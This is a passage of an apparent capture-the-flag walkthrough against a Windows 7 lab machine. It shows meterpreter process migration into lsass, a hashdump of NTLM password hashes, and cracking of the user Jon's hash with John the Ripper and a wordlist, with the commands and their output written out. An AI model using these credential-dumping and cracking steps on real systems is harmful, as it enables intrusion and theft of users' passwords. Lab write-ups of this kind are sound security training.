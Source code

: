 Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

```
meterpreter > pgrep lsass
712
meterpreter > migrate 712
[*] Migrating from 2328 to 712...
[*] Migration completed successfully.
```

## Cracking
Dump the non-default user's password and crack it!

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

Jon

```
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copy this password hash to a file and research how to crack it. What is the cracked password?

alqfna22

```
┌──(root㉿kali)-[/tmp]
└─# john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm_hashes.txt                  
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)     
alqfna22         (Jon)     
2g 0:00:00:00 DONE (2023-07-27 12:17) 5.128g/s 26154Kp/s 26154Kc/s 26167KC/s alqui..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```
